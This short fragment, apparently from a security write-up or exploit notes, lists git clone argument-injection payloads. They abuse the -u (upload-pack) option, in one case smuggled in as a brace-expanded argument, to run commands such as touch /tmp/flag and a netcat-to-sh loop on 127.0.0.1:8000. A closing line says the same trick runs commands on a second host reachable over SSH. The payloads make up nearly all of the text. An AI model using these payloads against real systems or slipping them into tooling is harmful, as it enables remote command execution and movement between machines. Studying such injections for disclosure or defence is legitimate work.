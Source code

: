 
```
git clone -u 'touch /tmp/flag #' file://etc/hosts
```

```
git clone file://etc/hosts "-u{touch,/tmp/flag};#"
```


```
git clone file://etc/hosts "-u{nc,127.0.0.1,8000}|sh|{nc,127.0.0.1,8000}>/dev/null;#"
```

If the victim machine has SSH access to another machine (e.g. `victim-2`),
the `-u` flag of `git clone` allows an attacker to specify arbitrary commands
to be run on that `victim-2` host.
```
git clone -u 'touch /tmp/flag #' ssh://victim-2/
```
